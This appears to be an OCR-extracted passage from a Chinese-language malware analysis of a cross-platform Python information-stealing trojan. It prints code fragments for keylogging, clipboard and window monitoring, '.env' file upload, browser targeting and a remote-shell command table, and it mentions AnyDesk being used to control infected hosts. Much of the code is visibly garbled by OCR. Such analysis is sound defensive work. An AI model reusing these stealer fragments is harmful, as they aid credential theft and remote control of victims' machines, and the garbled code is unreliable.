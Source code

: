 <html><body><table><tr><td>Hdeffpatten（pat）：#具标文件模糊搜索上传</td></tr><tr><td>def uenv（C）:shellc</td></tr><tr><td></td></tr><tr><td>deffenv（）：#模糊搜素包含".eny"路径文件上传</td></tr></table></body></html>  

使用下发的配置文件启用anydesk客户端对中马主机进行更为直接的远控。  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/d89c32ee01965ba6968ea8f949780ac1e0427ab4c09cd3bab040b5a73c695cd9.jpg)  

使用多个python库用于窗口监控、进程监控、剪切板监控、按键记录。  

import socket, subprocess, sys, re   
try:importpyWinhook aspyHook   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'pyWinhook\']);import pyWinhook as pyHook   
try:import psutil   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'psutil\']);import psutil   
try:import win32process   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'pywin32\']);import win32process   
try:import win32gui   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'pywin32\']);import win32gui   
try:import win32api   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'pywin32\']);import win32api   
try:import win32con   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'pywin32\']);import win32con   
try:import win32clipboard   
except:subprocess.check_call([sys.executable, _M,_P,_L,\'pywin32\']);import win32clipboard   
try:fromrequestsimportpost   
except:subprocess.check_call([sys.executable, _M,_P,_L,\'requests\']);from requests import post   
try:import wx   
except:subprocess.check_call([sys.executable,_M,_P,_L,\'wxPython\']);import wx  

Python窃密木马适配Windows、Linux、MaxOS三大PC平台。  

![](https://cdn-mineru.openxlab.org.cn/extract/f9607365-0087-44d6-97f8-79bafed2dde3/dcf6a25ff67a8646f556f6d7c690bb5fc34353a3cebe294cc39f7e361b3f4486.jpg)  

标浏览器包括chrome、opera、brave、yandex、msedge五个常见浏览器程序.  

class Chrome(BrowserVersion） :base_name -"chrome";v_w -["chrome","chrome dev", "chrome beta", "chrome canary"]iv_1 -["gooale-chrome",   
"google-chrome-unstable"，"αoagle-chrome-beta"];v_m =["chrome"，"chrome dex","chrome beta","chrome canary"]   
class Brave(Browserversion) :base_name -"brave";v_w- ["Brave-Browser", "Brave-Browser-Beta", "Brave-Browser-Nightly"];v_1 -["Brave-Browser", "Brave-Browser-Beta","Brave-Browser-Nightly"];v_m =["Brave-Browser","Brave-Browser-Beta","Brave-Browser-Nightly"]   
class Opera(BrowserVersion) :base_name -"opera";v_w - ["opera Stable", "opera Next", "opera Developer"];v_l - ["opera","opera-beta", "opera-developer"]; V_m -["som-anarasoftwaxe.Opera","som-operasoftwara.OperaNext", "som-anerasaftwaxe.operaDeveloper"]   
class Yandex(BrowserVersion) :base_name - "yandex";v_w - ["YandexBrowser"];v_1 - ["YandexBrowser"] ;v_m - ["YandexBrowser"]   
class MsEdge (BrowserVersion) :base_name = "msedge";v_w = ["Edge"];v_1 - [] ;v_m = []  

9.核心的远控代码初始化如下，解析各类型指令功能如下表。  

asssneil(opject): def_init_(A,s) : A.sess =S;A.is_alive =_T;A.is_delete=_F;A.lock=RLock();A.timeout_count=0;A.cp_stop=0 A.par_dir=os.path.join(os.path.expanduser("\~"),".n2") A.cmds - (1:A.ssh_obj,2:A.ssh_cmd,3:A.ssh_clip,4:A.ssh_run,5:A.ssh_upload,6:A.ssh_ki1l,7:A.ssh_any,8:A.ssh_env) print("initsuccess")  
